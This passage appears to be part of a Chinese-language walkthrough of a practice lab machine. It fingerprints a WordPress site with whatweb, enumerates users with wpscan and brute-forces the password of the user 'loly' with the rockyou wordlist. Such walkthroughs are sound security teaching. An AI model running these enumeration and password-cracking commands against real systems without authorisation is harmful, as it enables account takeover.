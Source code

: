 # wordpress探测

使用`whatweb`进一步探测，发现`wordpress`的版本信息

```shell
whatweb http://192.168.10.11/wordpress -v
```

![](./pic/15.jpg)

那么下一步，使用针对`wordpress`的工具`wpscan`

```shell
wpscan --url http://192.168.10.11/wordpress -e u
```

![](./pic/16.jpg)

枚举出用户，进一步进行密码破解

```shell
wpscan --url http://192.168.10.11/wordpress -U loly -P /usr/share/wordlists/rockyou.txt
```

![](./pic/17.jpg)
